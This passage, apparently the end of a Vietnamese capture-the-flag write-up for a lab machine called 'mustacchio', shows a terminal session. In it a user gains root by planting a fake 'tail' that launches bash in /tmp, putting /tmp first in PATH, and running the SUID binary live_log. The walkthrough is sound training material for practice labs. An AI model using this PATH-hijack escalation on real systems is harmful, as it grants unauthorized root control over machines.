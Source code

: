 Nó sẽ như thế này 

```python
barry@mustacchio:/tmp$ echo "/bin/bash" > tail
barry@mustacchio:/tmp$ chmod 777 tail
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ /home/joe/live_log 
root@mustacchio:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)
root@mustacchio:/tmp# ls /root
root.txt
root@mustacchio:/tmp# 
```

Hoàn thành!
